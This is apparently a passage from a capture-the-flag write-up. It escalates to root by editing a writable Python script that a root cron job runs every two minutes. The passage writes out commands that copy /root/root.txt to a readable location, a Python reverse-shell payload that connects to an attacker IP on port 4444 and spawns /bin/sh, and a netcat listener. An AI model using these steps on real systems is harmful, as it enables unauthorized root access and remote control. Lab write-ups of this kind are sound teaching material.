 SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/2 *   * * *   root    python /home/d4rckh/cleanup.py
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

```

lets cat out cleanup.py  
```
d4rckh@ubuntu-xenial:/home/d4rckh$ cat cleanup.py 
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /home/cleanup/* ')
except:
	sys.exit()

```
we have the permisssion and we can change the content of the file  



add the command to this by 

> **os'system('sudo cat /root/root.txt > /tmp/new.txt') ** 
> **sudo -u d4rch python cleanup.py**  

now we have the flag  

also we can have a bind shell 

by adding the commands 
```
import socket, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("<your ip>", 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.system("/bin/sh -i") 

```
> **nc -lvnp 4444**





 







```